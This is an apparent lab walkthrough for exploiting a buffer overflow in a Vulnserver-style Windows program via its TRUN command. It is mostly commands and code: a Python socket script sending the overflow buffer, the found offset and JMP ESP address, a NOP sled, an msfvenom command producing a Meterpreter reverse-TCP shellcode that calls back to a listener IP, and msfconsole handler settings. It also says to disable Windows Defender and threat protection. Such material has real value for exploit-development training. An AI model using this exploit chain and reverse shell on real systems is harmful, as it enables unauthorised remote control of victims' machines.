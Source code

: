     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -anto
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.10",9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow
_________________________________________________________________________________________________________________
### Use the site to generate 5000 characters
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### Copy and paste in the script replacing the "A" and dropping the * 5000
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and hit run again
#### Then rerun the script
_________________________________________________________________________________________________________________
### Next copy the EIP and paste into the register value
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### To find the offset 2003
_________________________________________________________________________________________________________________
### Next update the script by deleting the 5000 generated characters and adding the two lines below
#### buf += "A" * 2003
#### buf += "BBBB"
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and run again
#### Make sure the script it saved and run it again, should get back 42424242 in the EIP field
_________________________________________________________________________________________________________________
### Can delete the "BBBB" line, just to ensure it ran properly
#### Back on the immunitydebugger run the command below in the bottom bar
    !mona modules                            ## To see the fields are vulnerable for the dll
    !mona jmp -r esp -m "essfunc.dll"        ## To locate the space in memory the dll is at
_________________________________________________________________________________________________________________
### Back on immunitydebugger after you run the second command
#### click on Window in the top and select 2  Log Data
#### Find the Results select and copy the first line (address) 625012A0
_________________________________________________________________________________________________________________
### Back on the script add the address into the script and add the nop sled
    buf += "\xa0\x12\x50\x62"
    buf += "\x90" * 15
_________________________________________________________________________________________________________________
### Now to create a shellcode for the script
#### Use your linux IP in the lhost
    msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.21.223 lport=4444 -b "\x00" -f python
_________________________________________________________________________________________________________________
### Copy everything after the first buf += b""
#### and paste below the nop sled line
_________________________________________________________________________________________________________________
### Next run msfconsole
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 0.0.0.0
    set lport 4444
    exploit
_________________________________________________________________________________________________________________
### Go back to the windows opstation
#### Rewind immunitydebugger and run again
#### Ensure windows defend is turned off
#### Ensure everything in virus & threat protection settings are off as well
_________________________________________________________________________________________________________________
### Make sure you rewind immunitydebugger and run 
#### Make sure you write to the script then run the script
_________________________________________________________________________________________________________________
### Multihandler should start sending stage
#### If not go back and rewind and run immunitydebugger, ensure script is correct and run again.
_________________________________________________________________________________________________________________
